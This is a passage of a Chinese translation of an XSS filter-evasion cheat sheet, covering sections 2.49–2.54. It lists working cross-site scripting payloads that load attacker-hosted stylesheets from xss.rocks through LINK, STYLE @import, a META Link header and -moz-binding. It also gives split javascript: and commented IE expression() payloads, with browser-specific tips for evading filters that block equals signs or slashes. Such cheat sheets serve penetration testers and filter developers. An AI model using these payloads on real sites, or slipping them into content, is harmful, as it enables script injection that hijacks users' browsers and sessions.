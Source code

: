 
 

### 2.49.    远程样式表

### 

(利用像远程样式表一样简单的形式，你可以将XSS攻击代码包含在可使用内置表达式进行重定义的样式参数里。)这只在IE和使用IE渲染模式Netscape8.1+。注意这里没有任何元素在页面中表明这页面包含了JavaScript。提示：这些远程样式表都使用了body标签,所以必须在页面中有除了攻击向量以外的内容存在时才会生效, 也就是如果是空白页的话你必须在页面添加一个字母来让攻击代码生效:


<LINK REL="stylesheet" HREF="<http://xss.rocks/xss.css>">




### 2.50.    远程样式表2

这个和上面一样有效，不过使用了<STYLE>标签替代<LINK>标签. 这个细微的变化曾经用来攻击谷歌桌面。另一方面，如果在攻击向量后有HTML标签闭合攻击向量，你可以移除末尾的</STYLE>标签。在进行跨站脚本攻击时，如不能同时使用等号或斜杠，这是非常有用的，这种情况在现实世界里不止一次发生了:


<STYLE>@import'http://xss.rocks/xss.css';</STYLE>




### 2.51.    远程样式表3

这种方式仅在Opera 8.0(9.x不可以)中有效，但方法比较有创意. 根据RFC2616，设置一个Link头部不是HTTP1.1规范的一部分,但一些浏览器仍然允许这样做 (例如Firefox和  Opera). 这里的技巧是设置一个头部（和普通头部并没有什么区别，只是设置Link: <<http://xss.rocks/xss.css>>; REL=stylesheet）并且在远程样式表中包含使用了JavaScript的跨站脚本攻击向量，这一点是FireFox不支持的:


<META HTTP-EQUIV="Link" Content="<<http://xss.rocks/xss.css>>; REL=stylesheet">




### 2.52.    远程样式表4

这仅能在Gecko渲染引擎下有效并且需要在父页面绑定一个XML文件。具有讽刺意味的是 Netscape认为Gecko更安全 ，所以对绝大多数网站来说会受到漏洞影响:


<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>




### 2.53.    含有分隔JavaScript的STYLE标签

这个XSS会在IE中造成无限循环:


<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>




### 2.54.    STYLE属性中使用注释分隔表达式

由Roman Ivanov创建


<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
